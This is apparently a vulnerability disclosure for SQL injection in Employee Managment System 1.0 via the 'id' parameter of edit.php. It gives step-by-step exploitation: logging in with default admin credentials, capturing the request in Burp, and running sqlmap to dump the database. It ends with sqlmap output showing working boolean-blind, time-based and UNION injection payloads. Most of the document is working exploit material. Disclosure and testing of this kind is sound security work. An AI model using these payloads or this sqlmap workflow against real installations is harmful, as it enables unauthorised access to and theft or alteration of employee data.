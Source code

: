 # Employee Managment System - SQL Injection - 3
+ **Exploit Title:** Employee Managment System - SQL Injection - 3
+ **Date:** 2024-30-01
+ **Exploit Author:** Burak Sevben
+ **Vendor Homepage:** https://code-projects.org/employee-management-system-in-php-with-source-code/
+ **Software Link:** https://download.code-projects.org/details/4af079c9-ab82-4b2a-a133-be6989c7f70e
+ **Version:** 1.0
+ **Tested on:** Kali Linux + PHP 8.2.12, Apache 2.4.58
+ **CVE:** Reported, waiting for CVE number.

## Description:
Employee Managment System 1.0 allows SQL Injection via the 'id' parameter at "/370project//edit.php?id=111". 
Exploiting this issue could allow an attacker to compromise the application, access or modify data, or exploit the latest vulnerabilities in the underlying database.


## Proof of Concept:
+ Go to this address: "http://localhost/370project//alogin.html"
+ Login with `admin` : `admin`
+ Press the View Employee tab, select any employee and press the edit button
+ Capture the request via Burp Suite and send it to the Repeater.
+ Copy the request and paste it into an "r.txt" file.
+ Captured Burp request:
```
GET /370project//edit.php?id=111 HTTP/1.1
Host: localhost
sec-ch-ua: "Not A(Brand";v="24", "Chromium";v="110"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.78 Safari/537.36
```

+ Use sqlmap to exploit. In sqlmap, use 'id' parameter to dump the database.
```
sqlmap -r r.txt -p id --risk 3 --level 5 --dbms mysql --proxy="http://127.0.0.1:8080" --batch --current-db
```
```
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause (subquery - comment)
    Payload: id=111 AND 5433=(SELECT (CASE WHEN (5433=5433) THEN 5433 ELSE (SELECT 8839 UNION SELECT 6713) END))-- -

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=111 AND (SELECT 5430 FROM (SELECT(SLEEP(5)))gMEp)

    Type: UNION query
    Title: Generic UNION query (NULL) - 13 columns
    Payload: id=111 UNION ALL SELECT NULL,NULL,CONCAT(0x7162767171,0x486e6e5062594f43517643496c5574527374646b4d504958686b4175715a4d4f6b7a79514f556251,0x716b707071),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- -
---
[05:05:06] [INFO] the back-end DBMS is MySQL
web application technology: PHP 8.2.12, Apache 2.4.58
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[05:05:06] [INFO] fetching current database
current database: '370project'
```
+ current database: `370project`

![Ekran görüntüsü 2024-01-30 133927](https://github.com/BurakSevben/CVEs/assets/117217689/54e859bf-9a86-4977-a759-2d3fa6b77c2b)
